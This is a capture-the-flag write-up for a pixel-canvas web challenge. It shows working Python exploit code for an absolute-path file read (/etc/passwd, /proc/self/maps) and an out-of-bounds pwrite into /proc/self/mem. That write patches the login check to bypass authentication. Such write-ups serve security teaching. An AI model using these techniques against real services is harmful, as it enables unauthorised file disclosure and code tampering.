



## Web/L3aky Canvas

We are given a collaborative 64×64 pixel board backed by a Rust binary `l3aky-canvas`. Players can load rooms, place one pixel per cooldown, and there is a moderator login panel on the side.



### Auditing

The interesting part of the deployment is `entrypoint.sh`:

```bash
if [ -e /home/web/flag ]; then
    mv /home/web/flag "/srv/rooms/flag-$(od -An -N16 -tx1 /dev/urandom | tr -d ' \n').bin"
fi
unset FLAG
exec /l3aky-canvas
```

So the real flag is moved into a room file with a random name:

```text
/srv/rooms/flag-<random_hex>.bin
```

The legitimate way to learn the random room name is moderator login. After a successful `POST /login`, the handler does `read_dir("/srv/rooms")` and dumps every filename into the HTML response.

But reversing `l3aky_canvas::auth_check` shows the login check is permanently broken, it effectively returns:

```c
return v10 == (v10 ^ 1);
```

That predicate is never true for any `v10`, so authentication can never succeed.

### Vuln 1: Arbitrary File Read

`GET /canvas?room=drippy` is the normal case. Reversing `l3aky_canvas::resolve` shows the path join logic is roughly:

```text
base = "/srv/rooms"
if room starts with '/':
    path = room
else:
    path = base + "/" + room
```

So absolute room names escape the rooms directory entirely:

```text
GET /canvas?room=/etc/passwd
```

The handler reads the target file and encodes up to 4096 bytes as a 64×64 8-bit grayscale BMP. Decoding the BMP turns `/canvas` into an arbitrary file read primitive.

```python
def read_room(room, offset=0):
    r = requests.get(f"{BASE}/canvas", params={"room": room, "offset": offset})
    r.raise_for_status()
    data = r.content
    assert data[:2] == b"BM"

    off = struct.unpack_from("<I", data, 10)[0]
    w = struct.unpack_from("<i", data, 18)[0]
    h = struct.unpack_from("<i", data, 22)[0]
    pix = data[off: off + w * h]

    out = bytearray()
    for y in range(h):
        out += pix[(h - 1 - y) * w: (h - y) * w]
    return bytes(out).rstrip(b"\x00")

# print(read_room("/etc/passwd").decode())
```

### Vuln 2: Arbitrary Address Write

`POST /pixel` places one grayscale byte into a room file via `pwrite`. In `l3aky_canvas::handle`, after opening the resolved path, the write path is:

```c
offset = (y << 6) + x;  // full-width integers
FileExt::write_at(fd, &color, offset);
   // -> pwrite64(fd, &color, 1, offset)
```

The bounds check, however, never compares the full `x` / `y` against 64. It only keeps the low bytes, then rejects with `(x | y) & 0xC0 != 0`.

Because `0xC0` only masks bits 6-7 of the low byte, this is exactly "low 8 bits of `x` or `y` are ≥ 64", while the `pwrite` offset still uses the full integer values. So any coordinate whose low byte sits in 0-63 is accepted, even when the real value is far outside the 64×64 board.

| request `x` | low 8 bits (`x & 0xFF`) | check | write offset |
| ----------- | ----------------------- | ----- | ------------ |
| 63          | 63                      | ok    | 63           |
| 64          | 64                      | deny  | --           |
| 4097        | 1                       | ok    | 4097         |

Combined with vuln 1, we can `pwrite` a single chosen byte to any offset of any file the process can open for writing, including `/proc/self/mem`. ^v^

That gives a clean one-byte arbitrary write primitive against the process address space:

```python
def encode_offset(addr):
    x = addr % 64
    y = addr // 64
    if (y & 0xFF) < 64:
        return x, y
    # (x, y) gives addr = y*64+x, but may fail the low-byte check.
    # Search equivalent pairs (x + 64*k, y - k) which keep the same linear offset, until both low bytes are < 64.
    for k in range(1 << 16):
        x2, y2 = x + 64 * k, y - k
        if y2 < 0:
            break
        if (x2 & 0xFF) < 64 and (y2 & 0xFF) < 64:
            return x2, y2

def write_mem(addr, byte, path="/proc/self/mem"):
    x, y = encode_offset(addr)
    requests.post(
        f"{BASE}/pixel",
        data={"room": path, "x": x, "y": y, "color": byte & 0xFF},
    )
```

### Exploit

#### Step 1: Patch the program

At the end of `l3aky_canvas::auth_check`, the failing compare is implemented as:



```text
.text:00000000000227C5    0F 94 C0      setz    al
.text:00000000000227C8    C3            retn
```

Here `al` comes from `setz` (set if `ZF=1`): `al` is set to 1 only when the preceding compare `v10 == (v10 ^ 1)` is true, which is impossible. So `al` is always 0, and login always fails.

But if we can flip the middle byte from `0x94` to `0x95`:

```text
.text:00000000000227C5    0F 95 C0      setnz   al
```

The check becomes always true and any username/password will log us in.

To find the runtime address of that `setz al` instruction, leak `/proc/self/maps` with vuln 1:

```python
print(read_room("/proc/self/maps").decode())
```

```text
5b89d4c2f000-5b89d4c51000 r--p 00000000 00:17b 793539                    /l3aky-canvas
5b89d4c51000-5b89d4cc1000 r-xp 00021000 00:17b 793539                    /l3aky-canvas
5b89d4cc1000-5b89d4cc6000 r--p 00090000 00:17b 793539                    /l3aky-canvas
5b89d4cc6000-5b89d4cc8000 rw-p 00094000 00:17b 793539                    /l3aky-canvas
5b89fa9b8000-5b89fa9d9000 rw-p 00000000 00:00 0                          [heap]
...
```

The first mapping (`r--p`, file offset `0x00000000`) tells us the load base is `0x5b89d4c2f000`.
From the disassembly in IDA, the instruction we want to patch starts at offset `0x227c5`, and the byte to overwrite is at `0x227c5 + 1`.
So the runtime address is simply:

```python
target = 0x5b89d4c2f000 + 0x227c5 + 1
write_mem(target, 0x95)
```

> **Pitfall:** It is tempting to take the text segment (`r-xp`) start `0x5b89d4c51000` and subtract the file offset `0x21000` shown in the maps line, i.e. `0x5b89d4c51000 + (0x227c5 - 0x21000) + 1`. But this gives the wrong answer.
>
> **The reason:** As described in [elf(5)](https://linux.die.net/man/5/elf), a `PT_LOAD` segment's `p_vaddr` and `p_offset` only need to satisfy `p_vaddr % p_align == p_offset % p_align`; they need not be equal. Here, the kernel mapped file offset `0x21000` at load base `+ 0x22000` (`0x5b89d4c2f000 + 0x22000 = 0x5b89d4c51000`). So if you insist on computing relative to the `r-xp` start, the correct VA base of that segment is `0x22000`, not `0x21000`:
>
> ```python
> target = 0x5b89d4c51000 + (0x227c5 - 0x22000) + 1   # correct
> ```

Now any credentials will log us in.

#### Step 2: Login and read the flag

After the patch, log in with arbitrary credentials:

<!-- @xprops width="300px" -->



Finally load the flag room and decode the BMP:

```python
print(read_room("flag-7ba3dd4b8d83e67e6bcd2ebdbe2f40fc.bin").decode())
# L3AK{oN3_byte_70_ru13_7heM_al1}
```
